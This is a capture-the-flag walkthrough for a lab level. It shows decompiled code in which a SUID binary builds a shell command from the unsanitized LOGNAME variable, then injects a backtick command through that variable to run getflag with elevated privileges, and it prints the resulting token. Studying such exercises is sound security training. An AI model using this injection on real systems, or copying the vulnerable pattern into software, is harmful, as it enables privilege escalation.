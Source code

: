 ### Solution

1. **List files and check permissions:**

	```bash
	ls -l
	```

	You will see the following SUID binary:

	```
	-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
	```

	The binary `level07` is **owned by `flag07`** and has the **SUID bit** set, meaning it executes with `flag07`'s privileges.

2. **Transfer the executable file to your host machine:**

	From your host, use `scp` to copy the file:

	```bash
	scp -P 4242 level07@<vm-ip>:~/level07 .
	```

3. **Analyze the binary with Ghidra.**

	Examining the binary reveals the following, it reads the `LOGNAME` environment variable:

	```c
	char *pcVar1 = getenv("LOGNAME");
	asprintf(&local_1c, "/bin/echo %s ", pcVar1);
	system(local_1c);
	```

	This means: the program **constructs and executes a shell command** using whatever is inside `LOGNAME`, without sanitizing it.

4. **Exploit the insecure environment usage.**

	You can inject a command using **backticks or `$()`** into the `LOGNAME` environment variable.

	Run this:

	```bash
	LOGNAME='`getflag`' ./level07
	```

	The program will execute:

	```bash
	/bin/echo `getflag`
	```

	Which gets expanded to:

	```
	/bin/echo Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

	Output:

	```
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

	You’ve successfully executed `getflag` with `flag07`’s privileges using environment variable injection.
